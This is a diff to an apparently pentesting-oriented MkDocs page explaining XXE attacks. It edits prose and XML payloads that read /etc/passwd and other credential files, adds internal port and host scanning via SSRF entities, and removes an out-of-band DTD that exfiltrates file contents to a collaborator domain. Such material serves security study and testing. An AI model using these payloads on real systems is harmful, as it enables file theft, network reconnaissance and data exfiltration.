

Before and after one commit to HansMolemanPNG/hansmolemanpng.github.io, an MkDocs documentation site: the page built from docs/kb/injection-attacks/xxe.md, in a window 1280 px wide and 1400 px high, scrolled down 17550 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update xxe.md

````diff
--- a/docs/kb/injection-attacks/xxe.md
+++ b/docs/kb/injection-attacks/xxe.md
@@ -113,7 +113,10 @@
 ## What is it
 
 An XML External Entity attack is a type of attack against an application that parses non-validated XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. These external entities are defined by the attacker and they can lead to several side effects like data exfiltration, Server-Side Request Forgery (SSRF), denial of service or even, in very specific scenarios, Remote Code Execution (RCE).
-**Example of internal entity**:
+
+To understand the difference between a harmless entity and a dangerous one, compare these two examples:
+
+**Internal entity (harmless):**
 
 ```XML
 <!--?xml version="1.0" ?-->
@@ -124,9 +127,9 @@
  </userInfo>
 ```
 
-In this example the attacker is defining the entity “example”, assigning the value “Doe” to it and then reflecting it in the “lastName” element.
-
-**Example of external entity**:
+Here the attacker is defining the entity “example”, assigning the value “Doe” to it and then reflecting it in the “lastName” element. Nothing leaves the server.
+
+**External entity (dangerous):**
 
 ```XML
 <!--?xml version="1.0" ?-->
@@ -137,7 +140,7 @@
  </userInfo>
 ```
 
-In this example the attacker is defining “example” and assigning the content of “/etc/passwd” as the value. In an ideal situation the content of the file will be printed.
+Here the attacker is defining “example” and assigning the content of “/etc/passwd” as the value. In an ideal situation the content of the file will be printed in the response. If the application does not return the content directly, other exfiltration techniques covered later in this KB can be used.
 
 ## Requirements
 
@@ -209,6 +212,7 @@
 As covered in the fundamentals, the parser resolves entities by fetching whatever resource the `SYSTEM` identifier points to. But what happens when the fetched content causes problems?
 
 - If the file contains characters that are special in XML (`<`, `>`, `&`) the parser throws an error because the substituted content breaks the XML structure. This is why techniques like base64 encoding (php://filter) and error-based exfiltration exist — they work around this limitation.
+- If the target file is binary (a compiled library, an image, a .jar archive) the parser will either fail or return garbled content. This is another reason why encoding wrappers like `php://filter/convert.base64-encode` are useful — they convert binary content to safe ASCII before the parser tries to process it.
 - If the entity points to an HTTP URL, the parser makes an actual HTTP request to that URL. The response body replaces the entity. This is the foundation of both SSRF and OOB exfiltration.
 - If the entity points to a resource that does not exist, the parser generates an error message that often includes the path it tried to resolve. Attackers exploit this behavior to leak data through error messages.
 
@@ -355,7 +359,6 @@
     DOS[DENIAL OF SERVICE]
     DOS --> DOS1[Billion Laughs\nrecursive expansion]
     DOS --> DOS2[Quadratic Blowup\nrepeated references]
-
 ```
 
 -----
@@ -376,6 +379,8 @@
 
 If the target matches any of these patterns and especially if it runs Java, it is worth spending time on XXE testing.
 
+**Tip:** If the API only accepts JSON, do not give up immediately. Try sending an XML payload with `Content-Type: application/json` — some frameworks parse the body based on content rather than the declared content-type. This technique is covered in [Content-Type Switching](#content-type-switching).
+
 ## Testing on REST APIs
 
 The most reliable way to confirm XXE is by triggering entity resolution. To minimize the risk of information leaks and damage to the server we can try to either reflect a string from an external entity or read a harmless file like the hosts file.
@@ -419,7 +424,7 @@
 <!DOCTYPE replace [<!ENTITY xxe SYSTEM "sdjsd:///etc/passwd"> ]>
 <contacts>
   <contact>
-    <n>Jean &xxe; Dupont</n>
+    <name>Jean &xxe; Dupont</name>
     <phone>00 11 22 33 44</phone>
     <address>42 rue du CTF</address>
     <zipcode>75000</zipcode>
@@ -439,7 +444,7 @@
 <!DOCTYPE replace [<!ENTITY xxe SYSTEM "http:/Attacker server"> ]>
 <contacts>
   <contact>
-    <n>Jean &xxe; Dupont</n>
+    <name>Jean &xxe; Dupont</name>
     <phone>00 11 22 33 44</phone>
     <address>42 rue du CTF</address>
     <zipcode>75000</zipcode>
@@ -579,7 +584,7 @@
 
 ```xml
 <!ENTITY xxe SYSTEM "file:///etc/passwd">          <!-- User accounts -->
-<!ENTITY xxe SYSTEM "file:///etc/shadow">          <!-- Password hashes (requires root) -->
+<!ENTITY xxe SYSTEM "file:///etc/shadow">          <!-- Password hashes (requires root — rarely readable) -->
 <!ENTITY xxe SYSTEM "file:///etc/hosts">           <!-- Hostname mappings -->
 <!ENTITY xxe SYSTEM "file:///etc/hostname">        <!-- System hostname -->
 <!ENTITY xxe SYSTEM "file:///proc/self/environ">   <!-- Environment variables -->
@@ -622,6 +627,8 @@
 
 Server-Side Request Forgery (SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to unintended locations. This can lead to unauthorized actions or access to data within the organization and provides the attacker with the ability of fingerprinting other services running internally.
 
+The basic SSRF payload makes the parser request an internal URL:
+
 ```xml
 <?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [
@@ -630,13 +637,37 @@
 <foo>&xxe;</foo>
 ```
 
+If the entity content is reflected in the response, the attacker can read the response from internal services. This turns XXE into a proxy for accessing services that are not exposed to the internet.
+
+### Internal Service Discovery
+
+SSRF through XXE is not limited to reading a single URL. By varying the port and host in the entity declaration, attackers can map out the internal network:
+
+```xml
+<!-- Port scanning common services -->
+<!ENTITY xxe SYSTEM "http://127.0.0.1:80/">      <!-- HTTP -->
+<!ENTITY xxe SYSTEM "http://127.0.0.1:443/">     <!-- HTTPS -->
+<!ENTITY xxe SYSTEM "http://127.0.0.1:8080/">    <!-- Alt HTTP / Tomcat -->
+<!ENTITY xxe SYSTEM "http://127.0.0.1:8443/">    <!-- Alt HTTPS -->
+<!ENTITY xxe SYSTEM "http://127.0.0.1:3306/">    <!-- MySQL -->
+<!ENTITY xxe SYSTEM "http://127.0.0.1:5432/">    <!-- PostgreSQL -->
+<!ENTITY xxe SYSTEM "http://127.0.0.1:6379/">    <!-- Redis -->
+<!ENTITY xxe SYSTEM "http://127.0.0.1:9200/">    <!-- Elasticsearch -->
+<!ENTITY xxe SYSTEM "http://127.0.0.1:27017/">   <!-- MongoDB -->
+
+<!-- Scanning internal network hosts -->
+<!ENTITY xxe SYSTEM "http://192.168.1.1/">
+<!ENTITY xxe SYSTEM "http://10.0.0.1/">
+<!ENTITY xxe SYSTEM "http://172.16.0.1/">
+```
+
+The parser behavior reveals information about the target: a connection refused error means the port is closed, a timeout suggests a firewall is filtering traffic, and actual content in the response confirms the service is running and accessible. Even when the response is not reflected directly, timing differences between open and closed ports can confirm which services are running.
+
 ## Out-of-Band (OOB) Exfiltration via Malicious DTDs
 
 Up to this point, all techniques assume the server sends back the file content or error message in its response. But what happens when the application does not return anything useful? The response is a generic 200 OK or blank page, and nothing we inject shows up anywhere. This is called **blind XXE** — the vulnerability exists but we cannot see the output directly.
 
 The solution is to make the server send the data somewhere else — to a server we control. This is the “out-of-band” part: instead of reading the data in the response, we receive it on a separate channel. The XML parser’s ability to fetch external resources works in our favor here because we can make it send HTTP requests that contain the stolen data in the URL.
-
-**Key Concept:** The parser processes the XML input and resolves entities. If an entity points to an external resource (HTTP, HTTPS, or even FTP), the parser will attempt to fetch it. We exploit this behavior to send data out-of-band.
 
 The core idea is simple:
 
@@ -676,8 +707,6 @@
 - `%eval;` expands and defines `%exfiltrate`.
 - `%exfiltrate;` triggers the HTTP request to the attacker’s server, sending the file contents as part of the query string.
 
-**Why escape characters?** XML parsers enforce strict syntax rules. When nesting declarations, `%` must be escaped as `&#x25;` to avoid breaking the DTD structure.
-
 ### Step 2: Host the Malicious DTD
 
 Once the malicious DTD is created, host it on a server reachable by the target application. A simple Python HTTP server works:
@@ -709,16 +738,7 @@
 
 ### Step 4: Monitor OOB Interaction
 
-Use Burp Collaborator or a custom HTTP listener to capture the incoming request. Burp Collaborator provides a unique domain that logs all interactions, making it easy to confirm exploitation.
-
-```XML
-<!ENTITY % file SYSTEM "file:///etc/passwd">
-<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://<your-collaborator-id>.oastify.com/?x=%file;'>">
-%eval;
-%exfiltrate;
-```
-
-When the parser processes this, you should see an HTTP request to your Collaborator domain with the contents of `/etc/passwd` in the query string.
+Use Burp Collaborator or a custom HTTP listener to capture the incoming request. Burp Collaborator provides a unique domain that logs all interactions, making it easy to confirm exploitation. When the parser processes the malicious DTD, you should see an HTTP request to your Collaborator domain with the contents of `/etc/passwd` in the query string.
 
 [What is a blind XXE attack? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/xxe/blind)
 
@@ -726,7 +746,7 @@
 
 OOB exfiltration requires the server to make outbound HTTP connections to our server. But what if the firewall blocks all outbound traffic? In that case, data cannot leave the network through HTTP requests. However, there is another channel we can use: **error messages**.
 
-Many applications return error details when something goes wrong during XML parsing. If we can force the parser to include file contents inside an error message, we can read the data without any outbound connection. The trick is to make the parser try to access a non-existent file path that contains the stolen data — the error message will include the full path, revealing the file contents.
+Many applications return error details when something goes wrong during XML parsing. If we can force the parser to include file contents inside an error message, we can read the data without any outbound connection. The trick is to make the parser try to access a non-existent file path that contains the stolen data. When the parser fails to open `file:///nonexistent/<contents of /etc/passwd>`, it generates an error message that includes the full path it tried to resolve — and that path contains the file contents we want.
 
 For example, if the application returns error messages like these:
 
@@ -842,7 +862,7 @@
 unzip document.xlsx -d xlsx_extracted/
 ```
 
-**Step 2:** Modify `xl/workbook.xml` or `xl/worksheets/sheet1.xml`:
+**Step 2:** Inject into the XML files inside the archive. The most common injection points are `xl/sharedStrings.xml` (shared string table used for cell values), `xl/worksheets/sheet1.xml` (individual worksheet data) and `[Content_Types].xml` (content type definitions). Here is an example injecting into the workbook:
 
 ```xml
 <?xml version="1.0" encoding="UTF-8"?>
@@ -1080,20 +1100,6 @@
 <root>&xxe;</root>
 ```
 
-### XML to JSON
-
-Some APIs accept XML but convert to JSON:
-
-```http
-POST /api/data HTTP/1.1
-Host: example.com
-Content-Type: application/xml
-
-{
-  "data": "<?xml version='1.0'?><![CDATA[<!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]><root>&xxe;</root>]]>"
-}
-```
-
 ### Testing strategy
 
 APIs with poor input validation might accept `text/xml`, `application/xml`, `application/json`, `text/plain` or even missing content-types with XML content. Try the XXE payload with various content-type headers, with null/missing headers, and with charset parameters (`application/xml; charset=utf-8`).
@@ -1188,6 +1194,8 @@
 
 ### Common DTD Paths — Windows
 
+Windows DTD paths depend on the software installed on the server. Unlike Linux where many DTDs ship with the base system packages, Windows DTDs come from specific applications (Java, Office, database engines, etc). Not all of these will be present — it depends on what is installed:
+
 ```
 C:\Windows\System32\wbem\xml\cim20.dtd
 C:\Windows\System32\wbem\xml\cim10.dtd
@@ -1326,6 +1334,8 @@
 %eval;
 %exfiltrate;
 ```
+
+Keep in mind that DNS has strict length limits: each label (subdomain component) can be at most 63 characters and the full domain name cannot exceed 253 characters. This means DNS exfiltration works best for short values (hostname, single config values, usernames) but not for large files. For longer content you would need to split the data into chunks and send multiple DNS queries, or combine this with other techniques.
 
 ## PHP Wrappers
 
````
Also changed, not shown: other parts of docs/kb/injection-attacks/xxe.md (+4 -4 lines).
